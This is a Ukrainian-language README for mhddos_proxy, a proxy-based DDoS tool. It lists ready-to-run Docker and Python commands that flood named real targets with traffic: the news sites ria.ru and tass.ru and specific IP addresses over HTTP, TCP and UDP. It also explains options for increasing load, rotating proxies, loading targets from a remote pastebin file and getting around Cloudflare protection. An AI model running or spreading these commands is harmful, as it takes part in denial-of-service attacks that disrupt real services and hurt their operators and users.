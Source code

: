 ## Запуск - ВИМКНІТЬ VPN

### Docker

HTTP(S) по URL

    docker run -it --rm portholeascend/mhddos_proxy https://ria.ru https://tass.ru

HTTP по IP + PORT

    docker run -it --rm portholeascend/mhddos_proxy 5.188.56.124:80 5.188.56.124:3606

TCP

    docker run -it --rm portholeascend/mhddos_proxy tcp://194.54.14.131:4477 tcp://194.54.14.131:22

UDP - **ТУТ ПОТРІБНО ВКЛЮЧИТИ VPN**

    docker run -it --rm portholeascend/mhddos_proxy udp://217.175.155.100:53

### Python - усе аналогічно

    python3 runner.py https://ria.ru https://tass.ru

### Налаштування

**УСІ ПАРАМЕТРИ МОЖНА КОМБІНУВАТИ**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXX` - кількість потоків на кожне ядро CPU, за замовчуванням - 300

    docker run -it --rm portholeascend/mhddos_proxy -t 500 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід атаки, додайте прапорець `--debug`

    docker run -it --rm portholeascend/mhddos_proxy --debug https://ria.ru https://tass.ru

Отримати більше проксі (можливо, гіршої якості) - `--proxy-timeout SECONDS`

    docker run -it --rm portholeascend/mhddos_proxy --proxy-timeout 5 https://ria.ru https://tass.ru

Змінити частоту оновлення проксі (за замовчуванням - кожні 5 хвилин) - `-p SECONDS`

    docker run -it --rm portholeascend/mhddos_proxy -p 600 https://ria.ru https://tass.ru

Цілі з віддаленого файла конфігурації - `-c https://pastebin.com/raw/95D1jjzy`

    docker run -it --rm portholeascend/mhddos_proxy -c https://pastebin.com/raw/95D1jjzy

Обрати метод(и) для HTTP(S) атаки (наприклад для обходу Cloudflare) - `--http-methods CFB`  
**Цей параметр тільки в кінці** команди  
Повний список [див. тут](https://github.com/MHProDev/MHDDoS#features-and-methods)

    docker run -it --rm portholeascend/mhddos_proxy https://ria.ru https://tass.ru --http-methods CFB

## Документація

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [--proxy-timeout TIMEOUT]
                     [--rpc RPC] 
                     [--udp-threads UDP_THREADS]
                     [--debug]
                     [--http-methods METHOD [METHOD ...]]
